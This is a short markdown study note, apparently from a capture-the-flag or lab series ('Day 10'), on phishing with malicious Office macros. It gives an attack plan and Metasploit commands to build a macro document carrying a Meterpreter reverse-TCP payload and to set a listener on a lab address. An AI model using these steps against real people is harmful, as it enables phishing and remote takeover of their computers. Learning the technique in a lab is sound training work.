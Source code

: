 ```yaml
---
title: Day 10 - He had a brain full of macros, and had shells in his soul.
draft: false
tags:
  - cybersecurity
  - phishing
---
```



Human hacking is usually the easiest to accomplish

### Macros
An automated solution to save time and reduce manual effort.
Set of programmed instructions

### Attack plan

1. Create a document with a malicious macro
2. Start listening for incoming connections on the attacker's system
3. Email the document and wait for the target user to open it
4. Target user opens the document and connects the the attacker's system
5. Control the target user's system


### Creating a Malicious Document

- Open terminal and run `msfconsole`
- `set payload windows/meterpreter/reverse_tcp`
- `use exploit/multi/fileformat/office_word_macro`
- `set LHOST 10.10.211.101` listener host
- `set LPORT 8888` listener port
- `show options` check before running
- `exploit` executes 
- `exit` to return terminal

The most important part of the macro is the AutoOpen() method


### Listening for Incoming Connections

- Open `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set LHOST 10.10.211.101`
- `set LPORT 8888`
- `show options`
- `exploit`